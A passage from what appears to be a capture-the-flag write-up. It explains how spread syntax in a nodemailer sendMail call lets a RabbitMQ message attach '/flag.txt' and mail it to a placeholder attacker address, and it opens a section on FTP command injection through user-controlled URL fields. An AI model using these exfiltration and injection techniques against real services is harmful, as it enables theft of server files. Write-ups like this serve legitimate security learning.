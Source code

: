 Within `services/email/index.ts` a simple callback accepts RabbitMQ messages and invokes the function `sendMail(..)`.

```js
channel.consume("email", async (msg) => {
    if (msg === null) {
        return;
    }
    channel.ack(msg);

    try {
        let data = JSON.parse(msg.content.toString());
        await transport.sendMail({
            from: "plaid2020problem@gmail.com",
            subject: "Your Account",
            ...data,
        });
    } catch (e) {
        console.error(e);
    }
})
```

The key to this exploit is `...data`, which is [spread syntax](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax) unpacking the message content, `data`. After reading [the docs](https://nodemailer.com/message/attachments/) for `nodemailer`, we realize that the following invocation will email us the flag:

```js
await transport.sendMail({
    from: "plaid2020problem@gmail.com",
    to: "youremail@example.com",
    subject: "Your Account",
    attachments: [
        {
            filename: "flag.txt",
            path: "/flag.txt"
        }
    ]
});
```

## FTP command injection<a name="ftp-cmd-inject"></a>

The next observation to make is in `services/api/index.ts`, where we have a suspicious amount of control over the FTP connection.

```js
let { url } = req.query;
let parsed = new URL(url);

// ...snip...

let username = decodeURIComponent(parsed.username);
let password = decodeURIComponent(parsed.password);
let filename = decodeURIComponent(parsed.pathname);
let ftpClient = await connectFtp({
    host: parsed.hostname,
    port: parsed.port !== "" ? parseInt(parsed.port) : undefined,
    user: username !== "" ? username : undefined,
    password: password !== "" ? password : undefined,
});
image = await ftpClient.get(filename);
```
